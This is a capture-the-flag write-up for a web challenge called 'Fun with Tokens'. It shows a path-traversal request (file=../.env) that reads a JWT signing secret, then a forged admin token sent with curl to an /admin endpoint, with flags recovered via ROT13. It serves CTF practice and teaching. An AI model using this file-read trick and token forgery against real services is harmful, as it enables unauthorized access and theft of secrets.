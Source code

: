 # Fun with Tokens

Visiting the provided website we see some interesting thing:
There are two links:

http://3.142.122.1:9334/login
http://3.142.122.1:9334/adminNames

And comments in the Source:
```
<!-- /admin is where the fun's at XD -->
<!--The secret you seek is in the environment-->
```

Admin names sounds interesting so let's check that first:
There is actually a redirect to a getFile.php interesting.
Opening http://3.142.122.1:9334/getFile?file=admins in a browser provides us a list with admin names:

```
0xd4127c3c
din_djarin11
```

This already looks a lot like there might be LFI possible. We have the hint that there is some secret in the environment so let's try to pull the .env file using the getFile.php:

http://3.142.122.1:9334/getFile?file=.env
```
No such file or directory: /app/public/.env
```

Okay but maybe in the /app directory?

http://3.142.122.1:9334/getFile?file=../.env

```
secret=G00D_s0ld13rs_k33p_s3cret5
```
Sweet! Unfortunately this is not our flag so we have to search further. Let's have at /admin as the hint said that's where the fun is supposed to be.

http://3.142.122.1:9334/admin
```
{"success":false,"message":"Maybe send the token via Headers ... for Authorization?"}
```

This is some kind of API but we are not authorized. It seems like we need a token, we already have a secret_key which is used to sign tokens so this will propably be our attack vector.
We don't have any cookies/tokens yet so let's check our /login page.

For getting the intial token 

```curl -s -i "http://3.142.122.1:9334/login" -d "username=din_djarin11" |grep token```

![header_token](https://user-images.githubusercontent.com/73250884/120975811-495cc780-c78f-11eb-8846-a9fcd65a5263.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJzbnlmciIsImlhdCI6MTYyMzA1MDUyNn0.HcaTRFCnecRpusoNFTupk2ZiH4tCMNwVCrI4tMn2-4Q
```
Let's decrypt it using https://jwt.io

Intiallly it is like this

![jwt.io.png](https://user-images.githubusercontent.com/73250884/120976911-680f8e00-c790-11eb-8b3e-8f58508ca57a.png)

Change the admin to gehr and use the secret code we got.

After changing we get out new token

![jwt_io.png](https://user-images.githubusercontent.com/73250884/120976121-a8bad780-c78f-11eb-919a-b37128069345.png)

```eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJnZWhyIiwiaWF0IjoxNjIzMDUwNTI2fQ.lzzivSQHWUoPxBy4VWv0CdosfDJRZDiOqjR7T36eerQ
```
Let's send that token to /admin as our authorization header:

```
curl http://3.142.122.1:9334/admin -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJnZWhyIiwiaWF0IjoxNjIzMDUwNTI2fQ.lzzivSQHWUoPxBy4VWv0CdosfDJRZDiOqjR7T36eerQ"
```

![image](https://user-images.githubusercontent.com/73250884/120977485-000d7780-c791-11eb-8f69-08841c575b3c.png)

```
Hey din_djarin11! Here's your flag: FURYY{G0x3af_q0_z4gg3e_4r91ns4506s384q460s0s0p6r9r5sr4n}
```
By doing the rot 13 using cyberchef we get the flag https://gchq.github.io/CyberChef/

![image](https://user-images.githubusercontent.com/73250884/120977731-4a8ef400-c791-11eb-83a6-0dcb1613e7fe.png)

```
SHELL{T0k3ns_d0_m4tt3r_4e91af4506f384d460f0f0c6e9e5fe4a}
```
